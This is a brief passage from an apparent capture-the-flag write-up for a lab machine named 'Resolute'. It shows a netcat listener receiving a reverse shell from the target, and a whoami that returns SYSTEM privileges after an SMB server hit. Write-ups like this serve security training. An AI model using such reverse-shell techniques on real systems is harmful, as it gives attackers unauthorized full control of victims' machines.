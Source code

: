 You will see a hit on the SMB server and then a reverse shell contacting your netcat listener:

```bash
┌─[rin@parrot]─[~/boxes/Resolute]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.1.152] 59700
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
```





